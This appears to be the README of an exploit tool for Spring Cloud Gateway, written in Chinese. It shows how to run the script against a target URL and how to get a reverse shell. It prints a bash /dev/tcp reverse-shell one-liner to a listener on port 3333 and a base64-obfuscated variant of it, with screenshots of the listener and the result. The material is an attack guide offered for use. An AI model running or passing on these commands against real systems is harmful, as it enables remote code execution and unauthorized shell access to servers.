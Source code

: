 使用方法
SpringCloudGateway.py -u http://192.168.0.101:9000/
退出: exit 
windows平台上执行Dir会报错
<img width="791" alt="image" src="https://user-images.githubusercontent.com/37574712/156884418-3258f830-0a31-4f21-a5ed-a47facdbe137.png">

反弹shell
通过如下平台编码 
https://x.hacking8.com/?post=293
bash -i >& /dev/tcp/127.0.0.1/3333 0>&1 
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYxIA==}|{base64,-d}|{bash,-i}

监听
<img width="382" alt="image" src="https://user-images.githubusercontent.com/37574712/156892966-f2274b11-2cb0-4221-9396-5158eea9717e.png">
执行
<img width="612" alt="image" src="https://user-images.githubusercontent.com/37574712/156893013-41b55d1a-6f20-403b-b281-27bd9cafbbba.png">
结果
<img width="500" alt="image" src="https://user-images.githubusercontent.com/37574712/156893028-ee3d4556-a9fb-4e65-9cfb-d0cd7a5b9ad2.png">
